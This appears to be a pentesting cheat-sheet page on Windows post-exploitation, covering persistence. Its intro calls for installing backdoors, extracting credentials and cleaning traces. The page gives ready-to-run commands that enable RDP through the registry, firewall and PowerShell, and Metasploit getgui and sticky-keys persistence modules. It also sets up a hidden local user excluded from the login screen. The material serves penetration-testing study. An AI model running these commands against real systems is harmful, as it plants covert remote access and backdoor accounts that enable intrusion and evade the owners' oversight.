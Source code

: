 ```yaml
---
title: 6. Post-exploitation
categories:
  - Pentesting
  - Windows
tags:
  - Pentesting
  - Windows
  - Post-exploitation
toc: true
---
```


---
Step 6: Post exploitation.
Install backdoors, extract credentials and relevant data, clean step foots. 

---
<!-- more -->

<br>


## Persistence

### RDP
```batch Allow RDP through Registry (as administrator)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
```batch Allow RDP through the Windows Firewall (as administrator)
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
```pwsh Allow RDP through Powershell (as administrator)
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
```
<br>
```bash Metasploit - show GUI
run getgui -e -u 'user' -p 'password'
```
<br>
```bash Metasploit - sticky keys
use post/windows/manage/sticky_keys
set session 1
exploit
```

<br>

```batch Create a hidden user
net user hiddenuser "password" /add
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v hiddenuser /t REG_DWORD /d 0 /f
```

<br>

---
---